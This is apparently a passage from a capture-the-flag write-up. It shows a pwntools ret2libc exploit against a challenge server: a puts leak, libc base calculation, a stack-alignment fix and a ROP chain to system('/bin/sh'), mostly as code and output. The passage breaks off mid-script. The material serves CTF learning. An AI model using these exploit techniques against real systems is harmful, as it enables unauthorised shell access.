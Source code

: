 We send the second payload which overflows the buffer again, and instead of calling `puts(puts)` it calls `system("/bin/sh")`
```python
payload = b"\x90" * offset
payload += pack(pop_rdi)
payload += pack(next(libc.search(b"/bin/sh")))
payload += pack(libc.sym.system)
io.sendline(payload)
io.interactive()
```
{: .nolineno }

But we get no shell...
```bash
$ python3 manual.py
[+] Opening connection to challs.actf.co on port 31302: Done
[+] Puts @ 0x7fde22c63420
[+] Libc @ 0x7fde22bdf000
[*] Switching to interactive mode
Awesome! Now there's no system(), so what will you do?!
Your input: [*] Got EOF while reading in interactive
$
```
{: .nolineno }

This is because of `stack alignment`, our stack has to be aligned due to some assembly-instruction being called which requires it on 64-bit architecture. This is rather common in pwn-challenges, and can be solved by inserting another 8 bytes in our payload, in this case by inserting a `payload += pack(ret)`.

Our payload then becomes
```python
payload = b"\x90" * offset
payload += pack(ret)
payload += pack(pop_rdi)
payload += pack(next(libc.search(b"/bin/sh")))
payload += pack(libc.sym.system)
```
{: .nolineno }

The exploit ends up being
```python
offset = 72
libc = exe.libc
pop_rdi = 0x4012b3
ret = 0x40101a

io = start()
io.recvuntil(b"input:")

payload = b"\x90" * offset
payload += pack(pop_rdi)
payload += pack(exe.got.puts)
payload += pack(exe.sym.puts)
payload += pack(exe.sym.main)

io.sendline(payload)

puts_leak = u64(io.recvline()[1:].rstrip().ljust(8, b"\x00"))
log.success(f"Puts @ {hex(puts_leak)}")
libc.address = puts_leak - libc.sym.puts
log.success(f"Libc @ {hex(libc.address)}")

payload = b"\x90" * offset
payload += pack(ret)
payload += pack(pop_rdi)
payload += pack(next(libc.search(b"/bin/sh")))
```